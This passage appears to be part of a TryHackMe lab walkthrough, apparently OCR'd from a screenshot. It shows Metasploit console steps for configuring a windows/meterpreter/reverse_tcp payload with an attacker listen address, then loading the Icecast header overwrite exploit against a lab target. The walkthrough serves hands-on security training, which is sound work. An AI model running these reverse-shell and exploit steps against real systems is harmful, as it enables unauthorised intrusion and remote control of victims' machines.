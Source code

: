 - Set the local `PAYLOAD` variable to `windows/meterpreter/reverse_tcp` and the local `LHOST` to your `tun0` IP (VPN IP through THM, found through `ip addr`)

```
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST ************
LHOST => ************
msf6 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     ************      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target
```

- Return to the previous `exploit/windows/http/icecast_header` script by doing `use icecast`

```
msf6 exploit(multi/handler) > use icecast
[*] Using configured payload windows/meterpreter/reverse_tcp

Matching Modules
================

   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/http/icecast_header  2004-09-28       great  No     Icecast Header Overwrite


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/icecast_header

[*] Using exploit/windows/http/icecast_header
```

- Set the `RHOSTS` variable to the `thm_ip` you have
